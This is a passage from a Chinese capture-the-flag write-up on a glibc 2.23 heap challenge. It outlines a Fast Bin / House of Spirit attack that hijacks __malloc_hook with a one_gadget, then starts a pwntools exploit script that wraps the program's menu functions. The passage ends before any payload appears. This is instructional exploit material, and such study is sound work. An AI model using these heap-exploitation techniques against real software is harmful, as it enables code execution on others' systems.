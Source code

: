 我们上面提到过“玩转Fast Bin里面的攻击手段”，很容易想到House Of Spirit，即任意写

got劫持被ban了（Full RELRO），那么劫持\_\_malloc\_hook成onegadget就好了

# 五、Poc构造

有了思路，我们就可以开始构造Poc了

首先，我们先确定chunk的数目：

* House Of Spirit等Fast Bin利用都需要使Fast Bin中至少有两个chunk(chunk1,chunk2)
* 本题的双指需要在Fast Bin中有两个chunk的前提下，再要一个未被free的chunk(chunk4)
* 为了使得堆溢出更加灵活实用，我们在第一条提到的两个chunk前再加一个chunk(chunk0)，再第二条提到的一个chunk前再加一个chunk(chunk3)

[![]()](undefined)

## 1、四个功能的实现

利用离不开程序中的四个功能，因此先用python将这些功能封装成函数，方便后续的使用

```
from pwn import *

exe = ELF("./pwn_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

context.binary = exe
context(arch="amd64",os="linux",log_level="debug")


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("node5.buuoj.cn",26330)

    return r

def allocate(p,size):
    p.sendlineafter(b'Command: ',b"1")
    p.sendlineafter(b'Size: ',str(size))

# 输入的内容（content）部分需要是字节类型
def fill(p,index,content):
    p.sendlineafter(b'Command: ',b"2")
    p.sendlineafter(b'Index: ',str(index))
    p.sendlineafter(b'Size: ',str(len(content)))
    p.sendlineafter(b'Content: ',content)

def free(p,index):
    p.sendlineafter(b'Command: ',b"3")
    p.sendlineafter(b'Index: ',str(index))

def dump(p,index):
    p.sendlineafter(b'Command: ',b"4")
    p.sendlineafter(b'Index: ',str(index))

def main():
    p = conn()

    p.interactive()

```